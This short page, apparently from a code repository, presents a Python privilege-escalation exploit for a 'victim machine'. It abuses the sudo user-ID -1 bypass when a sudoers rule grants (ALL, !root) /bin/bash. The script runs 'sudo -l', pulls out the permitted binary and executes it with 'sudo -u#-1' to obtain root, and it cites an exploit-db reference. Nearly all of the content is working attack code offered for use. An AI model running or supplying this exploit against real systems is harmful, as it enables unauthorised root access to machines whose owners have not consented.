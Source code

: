 # Local Sudo Exploit 

If you run `sudo -l` and find the following: `(ALL, !root) /bin/bash`

Then you can run this exploit code as a python script on the victim machine:

```python
#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)

```

## Reference
- https://www.exploit-db.com/exploits/47502